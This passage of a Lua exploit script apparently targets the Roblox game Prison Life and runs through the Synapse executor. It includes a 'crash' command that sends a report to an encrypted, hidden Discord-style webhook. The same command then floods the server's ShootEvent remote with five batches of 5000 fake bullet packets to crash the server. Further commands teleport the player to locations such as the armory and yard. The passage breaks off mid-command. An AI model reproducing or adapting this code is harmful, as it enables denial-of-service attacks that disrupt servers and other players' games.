 						{
							name = "**__Player Count:__**",
							value = "`"..tostring(#game.Players:GetPlayers()).."`",
							inline = true,
						},
					},
					footer = {
						text = "Crash Log"
					},
					timestamp = ""
				}
			}
		}

		syn.request(
			{
				Url = syn.crypt.decrypt(webhookUrls.crash,qwerty),
				Method = "POST",
				Headers = {
					["Content-Type"] = "application/json"
				},
				Body = game:service("HttpService"):JSONEncode(crashJson)
			}
		)

		local PackageSize = 5000 -- How many bullets is sent through in one remote call. Thanks Globals
		local SendPackageAmountOfTimes =  5 -- How many times the remote should be called.

		local ReplicatedStorage = game:GetService("ReplicatedStorage")
		local Players = game:GetService("Players")
		local LocalPlayer = Players.LocalPlayer

		local ItemHandler = workspace:WaitForChild("Remote").ItemHandler
		local ShootEvent = ReplicatedStorage:WaitForChild("ShootEvent")

		ItemHandler:InvokeServer(workspace.Prison_ITEMS.giver["Remington 870"].ITEMPICKUP)
		local Tool = Players.LocalPlayer.Backpack["Remington 870"]

		local Packet = {
			RayObject = Ray.new(Vector3.new(-1, -1, -1), Vector3.new(1, 1, 1)),
			Distance = 2048,
			Cframe = CFrame.new(0, 0, 0),
			Hit = workspace:FindFirstChildOfClass("Part")
		}

		local Package = {}

		for i = 1, PackageSize do
			Package[i] = Packet
		end

		for i = 1, SendPackageAmountOfTimes do
			ShootEvent:FireServer(Package, Tool)
		end
	end
	if command("nex") or command("nexus") then
		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(916.297546, 99.9900055, 2383.50928)
	end
	if command("yard") or command("yar") then
		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(785.313904, 97.9999466, 2476.40723)
	end
	if command("armory") or command("arm") then
		game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(782.77533, 99.9900055, 2312.53613)
	end
	if command("sewer") or command("sew") then
